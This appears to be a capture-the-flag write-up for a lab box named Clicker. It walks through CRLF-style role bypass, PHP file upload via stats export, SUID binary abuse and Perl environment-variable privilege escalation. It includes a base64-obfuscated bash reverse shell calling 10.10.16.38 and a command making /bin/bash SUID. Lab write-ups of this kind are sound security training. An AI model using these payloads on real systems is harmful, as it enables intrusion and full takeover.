

## Enumeration

We start with a port scan: 

```bash
mkdir nmap
sudo nmap -sC -sV 10.10.11.232 -oA nmap/nmap
``` 



### Services

`OpenSSH` has no interesting CVEs. 
Apache has a HTTP request smuggling CVE and some others but none that could be currently useful  (link to [CVEs](https://httpd.apache.org/security/vulnerabilities_24.html)). 
`prcbind` is also not vulnerable to anything except DDOS attacks. 
We also have `nfs_acl 3` open, which means we may have a share we can read. 
We can use <kbd>`showmount`</kbd>:

```bash
showmount -e clicker.htb
```

shows we have one share available. 
We can mount it and we find the website source inside the zip file. 

### Website

Looking at the source code we find many interesting things.
Firstly we have a `diagnostic.php` which takes a special token with a `md5` hash.
So in the background I ran:

```bash
john --format=Raw-MD5 --mask=?a --min-length=1 --max-length=7 hash
```

which uses a mask of all ASCII characters it's max length being 7.
Then I looked onward and found a `db_utils.php` which has the `MySQL` database 
information and some functions to query from the database. There is this function:

```php
function get_top_players($number) {
	global $pdo;
	# sql injection (we are appending output to the SQL query)
	$stmt = $pdo->query("SELECT nickname,clicks,level FROM players WHERE clicks >= " . $number);
	$result = $stmt->fetchAll(PDO::FETCH_ASSOC);
	return $result;
}
```

This function has a clear SQL Injection vulnerability. But we have to be an admin to access it.
So how can we change our role. The role we are assigned when we register is user.
But there is also a `save_profile` function where we update our stats.
And this is the only place we could change our role but there is this code preventing it:

```php
if (isset($_SESSION['PLAYER']) && $_SESSION['PLAYER'] != "") {
	$args = [];
	foreach($_GET as $key=>$value) {
        # here we are not allowed to set the role as a GET parameter
		if (strtolower($key) === 'role') {
			// prevent malicious users to modify role
			header('Location: /index.php?err=Malicious activity detected!');
			die;
		}
		$args[$key] = $value;
	}
	save_profile($_SESSION['PLAYER'], $_GET);
	// update session info
	$_SESSION['CLICKS'] = $_GET['clicks'];
	$_SESSION['LEVEL'] = $_GET['level'];
	header('Location: /index.php?msg=Game has been saved!');
	
}
```

So because of this check we can't set our role, but could we somehow bypass it?
We can using `CRLF Injection`. We can add a `role=Admin` to the GET header that 
is sent when saving the game. But this is redirected and the error message is displayed 
as we have not bypassed it, but if we add `role%0d%0a=Admin` the `%0d%0a` this check 
is bypassed and the role is changed. 
We just logout and login and we have access to the administration panel.
In the administration panel we can export the stats which goes to the function that has an SQL injection.
But there is this PHP filter function in the way `is_numeric()` which checks if the variable is a number(int, float, etc.).
So I couldn't find a way to bypass.
But then we see we can change the extension of the exported file to `php`.
This allows us to create a PHP file.
We see we can control the nickname that is written to the file (it's the database parameter of `players` table).
We can change our nickname in the same way we did with setting `role` (we don't have to bypass it with `%0d%0a` because there is no check).
So we upload some PHP code with a reverse shell:

```php
<?php system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zOC8zMDAxIDA+JjEK | base64 -d | bash"); ?>
```

## Privilege escalation

### Jack

This gets us on the box. We can then check the database with the credentials we found in 
`db_utils.php`. We find some hashes which aren't cracked with the `rockyou.txt` password list.
We run some enum and find a `execute_query` binary under `/opt/manage`. 
It has SUID bit set and the owner is jack. 
When we decompile it with <kbd>`ghidra`</kbd> and look at it we see we have 
some arguments we have to input.

We can use `./execute_query [0-4]` to run a query.
(1 runs `create.sql`, 2 runs `populate.sql`, 3 runs `reset_password`, 4 runs `clean sql`).
The default switch branch goes into a block that executes <kbd>`system`</kbd>.
While running <kbd>`strace`</kbd> we see we can open files with `./execute_query 5 ../../../etc/passwd` 
(we are inside /home/jack/queries as show by <kbd>`strace`</kbd>). 
This opens `/etc/passwd`. So now we can create a file like this:

```bash
system echo echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zOC8zMDAxIDA+JjEK | base64 -d | bash;
``` 

We put this inside `/tmp/test` and run `./execute_query 5 ../../../tmp/test` and we get a reverse shell as `jack`. 
Then we find an SSH private key inside `/home/jack/.ssh` and we can SSH into the box.

### Root

Then we look around and fint this script at `/opt/monitor.sh`: 

```bash
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;

data=$(/usr/bin/curl -s http://clicker.htb/diagnostic.php?token=secret_diagnostic_token);
/usr/bin/xml_pp <<< $data;
if [[ $NOSAVE == "true" ]]; then
    exit;
else
    timestamp=$(/usr/bin/date +%s)
    /usr/bin/echo $data > /root/diagnostic_files/diagnostic_${timestamp}.xml
fi
```

So here I tried to look if I had any write permissions to any of the folders. 
With  `sudo -l`  we can see we have `SETENV` option allowed which means we can specify 
environment variables before running `monitor.sh`. 


By finding this [writeup](https://medium.com/@DGclasher/privilege-escalation-through-perl-environment-variables-349b39ca01) which is ironically using this box as an example we can set `PERL5OPT` and `PERL5DB` to execute commands:

```bash
sudo PERL5OPT=-d PERL5DB='system("chmod u+s /bin/bash")' ./monitor.sh
```

makes `/bin/bash` a root SUID binary. So what we just did was inject PERL environment variables into the script to make it execute our own code. <kbd>`Pwned!`</kbd>
